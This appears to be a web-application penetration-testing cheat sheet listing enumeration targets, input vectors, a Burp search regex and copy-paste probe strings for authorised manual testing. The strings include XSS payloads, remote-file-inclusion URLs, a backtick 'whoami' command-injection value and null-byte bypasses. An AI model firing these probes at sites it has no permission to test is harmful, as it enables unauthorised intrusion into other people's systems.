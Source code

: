 ### ENUMERATION:
-----------------------------------------------------------------------

- OPERATING SYSTEM 
- WEB SERVER
- DATABASE SERVERS
- PROGRAMMING LANGUAGES
- PLUGINS/VERSIONS
- OPEN PORTS
- USERNAMES
- SERVICES
- WEB SPIDERING
- GOOGLE HACKING


### VECTORS:
-----------------------------------------------------------------------

- INPUT FORMS
- GET/POST PARAMS
- URI/REST STRUCTURE
- COOKIES
- HEADERS



### SEARCH STRINGS:
-----------------------------------------------------------------------
Just some helpful regex terms to search for passively using Burpsuite or any other web proxy... 
```
fname|phone|id|org_name|name|email
```




### QUICK ATTACK STRINGS:
-----------------------------------------------------------------------
Not a complete list by any means, but when you're manually testing and walking through sites and need a quick copy/paste, this can come in handy... 
```
Company
First Last
username
username@mailinator.com
Password123$
+1416312384
google.com
https://google.com
//google.com
.google.com
https://google.com/.injectx/rfi_vuln.txt
https://google.com/.injectx/rfi_vuln.txt?`whoami`
https://google.com/.injectx/rfi_vuln.txt%00.png
https://google.com/.injectx/rfi_vuln.txt%00.html
12188
01/01/1979
4242424242424242
INJECTX
'>"></INJECTX>(1)
javascript:alert(1)//
"><img/onload=alert(1)>' -- 
"></textarea><img/onload=alert(1)>' -- 
INJECTX'>"><img/src="https://google.com/.injectx/xss_vuln.png"></img>
'>"><iframe/onload=alert(1)></iframe>
```